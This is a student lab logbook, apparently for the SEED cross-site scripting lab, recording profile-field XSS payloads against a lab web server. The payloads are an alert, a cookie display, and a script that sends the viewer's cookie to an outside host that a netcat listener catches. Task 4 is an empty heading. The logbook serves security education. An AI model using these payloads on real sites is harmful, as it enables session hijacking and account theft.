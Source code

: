 ## Task 1

First we logged in ```http://www.seed-server.com/```with the user ```alice``` and the corresponding password - ```seedalice```.
Then, in the profile page, we edit the ```Brief description``` to ```<script>alert(’XSS’);</script>```.

![Image 1.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7.png)

After making that change, when any user visits that profile, that code will be executed and an alert window will be displayed.

![Image 2.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task1_logbook7_2.png)

## Task 2

 We changed the  ```Brief description``` to ```<script>alert(document.cookie);</script>```.

 ![Image 3.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7.png)

 After making the change, when viewing the profile, an alert window was displayed showing the cookies of the user who viewed the profile.

 - Login as ```alice```:
  ![Image 4.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_2.png)
 - Login as ```boby```:
   ![Image 5.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task2_logbook7_3.png)

## Task 3
 We changed the  ```Brief description``` to ```<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>```.
   ![Image 6.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7.png)
   Then we used the command ```nc -lknv 5555```to start a server that listens on port 5555, then we visited ```alice```'s profile logged as ```alice``` and then logged as ```boby```:
      ![Image 7.](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/task3_logbook7_1.png)
    That way, as the attacker, we were able to see the users cockies.

## Task 4
